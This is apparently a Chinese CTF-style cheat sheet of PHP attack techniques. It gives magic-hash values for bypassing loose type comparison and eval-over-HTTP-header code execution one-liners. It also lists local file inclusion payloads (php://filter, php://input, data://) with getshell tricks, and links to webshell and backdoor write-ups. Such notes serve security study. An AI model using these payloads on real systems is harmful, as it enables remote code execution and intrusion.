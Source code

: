 # PHP积累

## PHP 三种写法

```
<? echo ("这是一个 PHP 语言的嵌入范例\n"); ?>
<?php echo("这是第二个 PHP 语言的嵌入范例\n"); ?>
<script language="php"> 
echo ("这是类似 JavaScript 及 VBScript 语法
的 PHP 语言嵌入范例");
</script>
<% echo ("这是类似 ASP 嵌入语法的 PHP 范例"); %>
```

## PHP中的弱类型比较

以下值在MD5加密以0E开头：

```
QNKCDZO
240610708
S878926199a
s155964671a
s214587387a
```

以下值在sha1加密之后以0E开头：

```
sha1('aaroZmOk')
sha1('aaK1STfy')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```

## parse_url 绕过

- path部分以``///``开头返回``bool(false)``


#### 参考资料

浅析无参数rce

https://www.cnblogs.com/wangtanzhi/p/12311239.html

### 一些有用的函数和调用

- ``get_defined_vars()``
  
    获取文件中全部变量，包括include

- ``eval(end(getallheaders()))``
  
    利用``HTTP``最后的一个``header``传参

- ``eval(getallheaders(){'a'})``

    利用``HTTP``名为``a``的``header``传参
- ``error_reporting(E_ALL);``
    开启报错
- ``getcwd()``
    获得当前路径

### 参考资料

一些不包含数字和字母的webshell：

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

PHP回调后门：

https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html

php webshell检测与绕过

https://www.smi1e.top/php-webshell%e6%a3%80%e6%b5%8b%e4%b8%8e%e7%bb%95%e8%bf%87/

## LFI

### Wrapper

```
php://filter/convert.base64-encode/resource=index.php
```
### include

- ``php://input`` + POST报文php代码  (allow_url_include=On)

- ``data://text/plain,<phpcode>`` (allow_url_include=On)

- php7 ``php://filter/string.strip_tags=/etc/passwd`` 
  
  导致php在执行过程中出现segment fault错误，这样如果再此同时上传文件那么临时文件就会被保存在/tmp目录下，不会被删除。
  文件名需要爆破``/tmp/phpxxxxx``

- session + lfi getshell

### 参考资料

https://xz.aliyun.com/t/5535#toc-7

php文件包含漏洞： https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/


## rand() 安全性问题 

php_mt_seed